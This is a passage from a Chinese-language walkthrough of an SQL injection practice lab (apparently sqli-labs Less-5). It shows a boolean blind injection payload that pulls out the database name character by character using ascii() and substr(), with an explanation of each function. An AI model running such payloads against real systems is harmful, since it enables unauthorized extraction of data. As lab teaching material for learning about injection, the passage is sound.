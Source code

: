 ![Less-5_5](./img/Less-5_5.PNG)

该画面是错误画面，可知数据库名长度不是9，由此可确定数据库名长度是8



+ 然后爆破数据库名，先注入以下语句再根据<code>ASCII</code>表确定数据库名第一个字符

~~~ shell
?id=1'and ascii(substr((select database()),1,1))=115--+
#substr("78909",1,1)=7 substr(a,b,c)a是要截取的字符串，b是截取的位置，c是截取的长度。布尔盲注我们都是长度为1因为我们要一个个判断字符。ascii()是将截取的字符转换成对应的ascii吗，这样我们可以很好确定数字根据数字找到对应的字符。
~~~

![Less-5_6](./img/Less-5_6.PNG)
